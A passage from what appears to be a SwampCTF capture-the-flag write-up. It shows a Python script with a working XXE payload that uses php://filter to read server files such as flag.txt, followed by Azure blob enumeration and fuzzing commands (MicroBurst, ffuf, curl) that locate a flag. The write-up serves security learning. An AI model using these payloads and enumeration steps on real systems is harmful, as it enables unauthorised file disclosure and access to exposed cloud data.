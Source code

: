 ```python
    content = resp.text.split("SEP")
    print(base64.b64decode(content[1]).decode())


# xml =  '<?xml version="1.0" encoding="UTf-8" ?><!DOCTYPE name [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=process.php">]><root><name>SEP&xxe;SEP</name><email>test@swamptech.com</email></root>'
xml =  '<?xml version="1.0" encoding="UTf-8" ?><!DOCTYPE name [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.txt">]><root><name>SEP&xxe;SEP</name><email>test@swamptech.com</email></root>'

submit_process(xml)
```

Additionally we can determine the absolute path of the flag by checking the file_exist feature in the admin but its not needed to solve. example `../html/flag.txt` returns true

Saved some php source code in the exfil folder. API endpoints are full of rabbit holes. 



# Misc
## Blue
The SwampCTF team is trying to move our infrastructure to the cloud. For now, we've made a storage account called `swampctf` on Azure. Can you test our security by looking for a flag?

### Solution
Enumerate Azure Storage accounts 
used this tool https://github.com/NetSPI/MicroBurst/blob/master/Misc/Invoke-EnumerateAzureBlobs.ps1
```powershell
Import-Module .\Invoke-EnumerateAzureBlobs.ps1
Invoke-EnumerateAzureBlobs -Base swampctf
```
returns `swampctf.blob.core.windows.net`

fuzzing storage content then we get the flag 
```bash
ffuf -u "https://swampctf.blob.core.windows.net/FUZZ?restype=container&comp=list" -w /usr/share/SecLists/Discovery/Web-Content/raft-large-words.txt

curl "https://swampctf.blob.core.windows.net/test?restype=container&comp=list"

curl "https://swampctf.blob.core.windows.net/test/flag_020525.txt"
```
can also azure storage explorer
![](_attachments/Pasted%20image%2020250331015301.png)

Tools 
- https://github.com/NetSPI/MicroBurst
- https://github.com/Macmod/goblob